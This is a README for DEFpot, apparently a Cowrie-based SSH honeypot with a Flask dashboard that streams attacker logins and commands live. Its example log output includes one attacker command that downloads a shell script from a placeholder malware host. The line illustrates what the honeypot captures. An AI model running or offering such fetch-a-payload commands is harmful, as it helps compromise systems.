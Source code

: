 # DEFpot  
“Step in the pot. Join the flock.”

## 🐍 Overview

**DEFpot** is a lightweight SSH honeypot system based on [Cowrie](https://github.com/cowrie/cowrie), designed to monitor and log unauthorized login attempts in real-time via a clean Flask-based web UI.

Attackers are lured into an isolated fake SSH environment where every move they make — from connection, login, to command execution — is logged and streamed live in a browser.

## 🔥 Features

- ✅ Real-time traffic display via Flask + SSE
- ✅ Auto-scrolling log viewer with dark mode
- ✅ Visual feedback on:
  - Port scanning behavior
  - SSH logins (usernames)
  - Commands executed
- ✅ Fully sandboxed via `python3-venv`
- ✅ Systemd service for persistent honeypot runtime

---

## 🧱 Folder Structure

```
DEFpot/
├── cowrie/                # Pre-configured Cowrie honeypot
├── cowrie_web_monitor/    # Flask-based UI
│   ├── app.py             # Main web app
│   ├── templates/
│   │   └── index.html
│   └── static/
│       └── styles.css
├── install.sh             # Auto-setup script
└── README.md              # This file
```

---

## ⚙️ Installation

1. Clone the repository:

```bash
git clone https://github.com/Dark-Avenger-Reborn/DEFpot.git
cd DEFpot
```

2. Run the setup script:

```bash
chmod +x install.sh
./install.sh
```

This will:
- Install system dependencies
- Set up a virtual environment inside `cowrie/`
- Install Cowrie's requirements
- Create a systemd service for Cowrie
- Start Cowrie as a background service

3. Configure your firewall/router to **forward port `22` (SSH)** to **port `2223`** on the host machine.  
   This is required because Cowrie listens on `2223` (by default) instead of directly on `22`.

> 🔒 This prevents Cowrie from needing root to bind to port 22, while still catching incoming SSH traffic.

---

## 🚀 Running the Web UI

In a second terminal:

```bash
cd cowrie_web_monitor
python3 app.py
```

Then visit:

```
http://localhost:8080
```

You'll see live attack logs stream in as they happen.

---

## 🕵️‍♀️ What You’ll See

Example logs:

```
192.168.0.5 is scanning ports  
192.168.0.5 logged in as root via SSH  
192.168.0.5 ran: wget http://malware.site/shell.sh
```

---

## 📣 Optional: Discord Webhook Alerts

To enable alerts:

1. Create a Discord webhook.
2. Save the URL in a file named `webhook_url.txt` one directory above the web UI:

```
DEFpot/
├── webhook_url.txt      # Place it here
├── cowrie/
├── cowrie_web_monitor/
```

> ❗ If the file is missing or the webhook is broken, the system **fails silently** — no crashes.

---

## 🔁 Required for Full Operation

✅ Cowrie must be running as a `systemd` service  
✅ `app.py` must be running to serve the web UI  
✅ Port 22 must be redirected to Cowrie’s listening port (default: 2223)

---

## 💬 Tips

- Want to run `app.py` as a service? Consider `systemd` or `supervisor`.
- Use `ufw` or `iptables` to control and log forwarded traffic.
- Tail the raw log manually:  
  `tail -f cowrie/var/log/cowrie/cowrie.log`

---

## 📜 License

MIT — see [LICENSE](LICENSE)

---

**DEFpot**  
“Step in the pot. Join the flock.”
